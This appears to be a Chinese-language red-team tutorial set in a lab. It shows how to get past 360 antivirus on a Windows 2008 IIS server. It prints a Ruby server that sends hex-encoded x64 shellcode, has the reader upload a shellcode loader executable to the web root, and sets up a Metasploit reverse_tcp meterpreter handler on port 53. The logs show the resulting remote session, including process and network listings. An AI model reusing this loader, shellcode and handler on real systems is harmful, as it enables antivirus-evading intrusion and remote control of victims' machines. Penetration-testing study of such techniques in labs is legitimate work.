










攻击机： 192.168.1.4 Debian
靶机： 192.168.1.2 Windows 2008
目标机安装：360卫士+360杀毒
[*] 磁盘列表 [ C:D:E: ]
C:\inetpub\wwwroot\> tasklist
映像名称 PID 会话名 会话\# 内存使用
========================= ======== ================ =========== ============
System Idle Process 0 0 24 K
System 4 0 372 K
smss.exe 236 0 956 K
csrss.exe 324 0 5,572 K
csrss.exe 364 1 14,452 K
wininit.exe 372 0 4,508 K
winlogon.exe 408 1 5,364 K
services.exe 468 0 7,376 K
lsass.exe 476 0 9,896 K
lsm.exe 484 0 3,876 K
svchost.exe 576 0 8,684 K
vmacthlp.exe 632 0 3,784 K
svchost.exe 676 0 7,384 K
svchost.exe 764 0 12,716 K
svchost.exe 800 0 29,792 K
svchost.exe 848 0 11,248 K
svchost.exe 900 0 9,308 K
svchost.exe 940 0 16,184 K
svchost.exe 332 0 11,800 K
spoolsv.exe 548 0 15,568 K
svchost.exe 1052 0 8,228 K
svchost.exe 1076 0 8,808 K
svchost.exe 1144 0 2,576 K
VGAuthService.exe 1216 0 10,360 K
vmtoolsd.exe 1300 0 18,068 K
ManagementAgentHost.exe 1332 0 8,844 K
svchost.exe 1368 0 11,884 K
WmiPrvSE.exe 1768 0 13,016 K
dllhost.exe 1848 0 11,224 K
msdtc.exe 1940 0 7,736 K
WmiPrvSE.exe 1440 0 19,768 K
mscorsvw.exe 296 0 4,732 K
mscorsvw.exe 584 0 5,088 K
sppsvc.exe 1476 0 8,408 K
taskhost.exe 2612 1 6,344 K
dwm.exe 2868 1 4,604 K
explorer.exe 2896 1 44,912 K
vmtoolsd.exe 3008 1 17,744 K
TrustedInstaller.exe 2268 0 15,776 K
360Tray.exe 2684 1 6,056 K
360sd.exe 2636 1 1,316 K
ZhuDongFangYu.exe 2456 0 14,292 K
360rp.exe 1712 1 27,072 K
SoftMgrLite.exe 864 1 16,816 K
w3wp.exe 3300 0 42,836 K
svchost.exe 3840 0 4,584 K
notepad.exe 3712 1 5,772 K
cmd.exe 3384 0 2,376 K
conhost.exe 3520 0 3,420 K
tasklist.exe 3096 0 5,276 K 58

C:\> dir
驱动器 C 中的卷没有标签。
卷的序列号是 C6F8‐9BAB
C:\ 的目录
2017/12/13 03:28 <DIR> inetpub
2009/07/14 11:20 <DIR> PerfLogs
2017/12/13 03:28 <DIR> Program Files
2019/01/23 14:09 <DIR> Program Files (x86)
2019/01/23 14:15 <DIR> Users
2017/12/13 03:25 <DIR> Windows
0 个文件 0 字节
6 个目录 21,387,132,928 可用字节

目标机位x64位 Windows 2008
C:\> ver
Microsoft Windows [版本 6.1.7600]

配置payload：
root@John:/var/www/html# cat ./Micropoor_rev.rb
require 'socket'
if ARGV.empty?
puts "Usage:"
puts "Micropoor.rb port"
exit
end
PORT = ARGV.first.to_i
def handle_connection(client)
puts "Payload is on‐line \#{client}"
client.write("4831c94881e9c0ffffff488d05efffffff48bb32667fcceeadb9f74
8315827482df8ffffffe2f4ce2efc281e4575f732663e9daffdeba6642e4e1e8be532a552
2ef49ef6e532a5122ef4bebee5b640782c32fd27e588379e5a1eb0ec8199b6f3af728def6
c5b1a60272e8465ff997c705a37cd3ecb388f2a6d7dc36bdfb9f732edff44eeadb9bfb7a6
0baba6ac69a7b92e678865ed99be33b69c9aa65270b6b952f784ef7bf4c6fb2e4e0c42ec7
83e3f277e0dd64dcc067e6533e8e6e8802647be278865ed9dbe33b6198d65a1f1b3b92663
85ef7df87c36ee37cd3eece1b66a382696aff5f8ae733c374f028df8a5cd86278db7f7f17
c208f34331152e4be8c110cfeb19e8bf732272985674bf176dec67ecceee430127bda7dcc
ee98795f33623e98a7245dbbbb973e76a2da9ff0cdb3334504c5b8f63266268d5484399c3
299aaa6e4ece7a7622b4e05a39c79bfcda637452ce546377aefbe8d5447b628d299aa8467
6ad3e7733e33450ce5300e73dce6699acc4622b7a60bc6a7527782d78eeccceeadf174de7
637450ce0883e58623e94a62440b68864a604b1526c74ca660199a62e7dd76cef89a6aeec
e09f32767fccaff5f17ec02e4e05af17e15361838019a6247abebba132fd27e430077aefa
5846754f84d30bfb79311783a0f321b5794affae09f32267fccaff5d3f76827c5c7c1a289
08e731268d54d8d7ba5399aa85116350cbcd998084ef6ef1def42efa3a9b19f808d53e15ccb7e47e35c2d3dd9a1178b9f7")
client.close
end
socket = TCPServer.new('0.0.0.0', PORT)
puts "Listening on \#{PORT}. "
while client = socket.accept
Thread.new { handle_connection(client)}
end
root@John:/var/www/html# ruby ./Micropoor_rev.rb 8080
Listening on 8080.

上传Micropoor_shellcode_x64.exe

配置msf：
msf exploit(multi/handler) > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
Payload options (windows/x64/meterpreter/reverse_tcp):
Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 192.168.1.4 yes The listen address (an interface may be specified)
LPORT 53 yes The listen port
Exploit target:
Id Name
‐‐ ‐‐‐‐
0 Wildcard Target
msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.1.4:53

靶机执行：

msf exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (206403 bytes) to 192.168.1.2
[*] Meterpreter session 6 opened (192.168.1.4:53 ‐> 192.168.1.2:49744)
at 2019‐01‐23 01:29:00 ‐0500
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > sysinfo
Computer : WIN‐5BMI9HGC42S
OS : Windows 2008 R2 (Build 7600).
Architecture : x64
System Language : zh_CN
Domain : WORKGROUP
Logged On Users : 1
Meterpreter : x64/windows
meterpreter > ipconfig
Interface 1
============
Name : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
Interface 11
============
Name : Intel(R) PRO/1000 MT Network Connection
Hardware MAC : 00:0c:29:bc:0d:5c
MTU : 1500
IPv4 Address : 192.168.1.2
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::5582:70c8:a5a8:8223
IPv6 Netmask : ffff:ffff:ffff:ffff::

meterpreter > ps
Process List
============
PID PPID Name Arch Session User Path
‐‐‐ ‐‐‐‐ ‐‐‐‐ ‐‐‐‐ ‐‐‐‐‐‐‐ ‐‐‐‐ ‐‐‐‐
0 0 [System Process]
4 0 System
236 4 smss.exe
296 468 mscorsvw.exe
324 316 csrss.exe
332 468 svchost.exe
364 356 csrss.exe
372 316 wininit.exe
408 356 winlogon.exe
468 372 services.exe
476 372 lsass.exe
484 372 lsm.exe
548 468 spoolsv.exe
576 468 svchost.exe
584 468 mscorsvw.exe
632 468 vmacthlp.exe
676 468 svchost.exe
764 468 svchost.exe
800 468 svchost.exe
848 468 svchost.exe
864 2684 SoftMgrLite.exe
900 468 svchost.exe
940 468 svchost.exe
1052 468 svchost.exe
1076 468 svchost.exe
1144 468 svchost.exe
1216 468 VGAuthService.exe
1300 468 vmtoolsd.exe
1332 468 ManagementAgentHost.exe
1368 468 svchost.exe
1440 576 WmiPrvSE.exe
1476 468 sppsvc.exe
1712 2636 360rp.exe
1768 576 WmiPrvSE.exe
1848 468 dllhost.exe
1940 468 msdtc.exe
2456 468 ZhuDongFangYu.exe
2612 468 taskhost.exe
2636 1096 360sd.exe
2684 1096 360Tray.exe
2788 3408 Micropoor_shellcode_x64.exe x64 0 IIS APPPOOL\DefaultAppPool C:\inetpub\wwwroot\Micropoor_shellcode_x64.exe
2868 900 dwm.exe
2896 2852 explorer.exe
3008 2896 vmtoolsd.exe
3196 468 svchost.exe
3300 1368 w3wp.exe x64 0 IIS APPPOOL\DefaultAppPool c:\windows\system32\inetsrv\w3wp.exe
3408 3300 cmd.exe x64 0 IIS APPPOOL\DefaultAppPool C:\Windows\system32\cmd.exe
3712 2896 notepad.exe
4092 324 conhost.exe x64 0 IIS APPPOOL\DefaultAppPool C:\Windows\system32\conhost.exe
meterpreter >

靶机：

附录：
Micropoor_shellcode for payload backdoor
https://micropoor.blogspot.com/2019/01/micropoorshellcode-for-payload-backdoor.html
Micropoor